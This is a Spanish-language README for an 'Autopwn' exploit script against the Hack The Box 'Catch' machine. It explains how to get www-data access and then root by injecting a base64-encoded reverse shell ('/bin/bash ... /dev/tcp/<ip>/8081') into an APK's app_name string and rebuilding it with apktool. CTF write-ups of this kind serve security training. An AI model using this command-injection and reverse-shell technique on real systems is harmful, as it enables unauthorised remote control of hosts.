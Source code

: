 # Autopwn

### (www-data)
Al seleccionar la opcion 1 al ejecutar el script te dara acceso solo como usuario www-data en el sistema y te mostrara ya la contraseña ssh para el 
usiario will 

### (root)
Y al seleccionar la opcion 2 te dara acesso a el sistema como usuario root pero para eso ya tendras que tener listo el archivo apk con el payload 
preparado, de igual manera aqui te explico como hacerlo: 

1. Tendra que ya disponer de la herramienta **apk-tool.jar** y el apk de la maquina **catchv1.0.apk**, ya que tenga esos archivos ejecute los 
siguientes comandos:
 ```console
java -jar apktool_2.6.1.jar d catchv1.0.apk
nano catchv1.0/res/values/strings.xml
```
2. Busca la linea **< string name="app_name" >Catch</ string >** y agregar una reverse shell despues Catch quedando asi 
**< string name="app_name" >Catch; echo** << Reverse Shell en base64 >> **| base64 -d | bash -i</ string >**

**Reverse shell en base64**
```console
echo '/bin/bash -l > /dev/tcp/<< your HTB ip address >>/8081 0<&1 2>&1' | base64 
```
3. Y ya despues compilamos otra ves el apk
```console
java -jar apktool_2.6.1.jar b catchv1.0/ -o out.apk
```

Ya con este archivo apk ahora si ejecute el archivo de python solo modifique las partes indicadas por los comentarios antes de usarlo
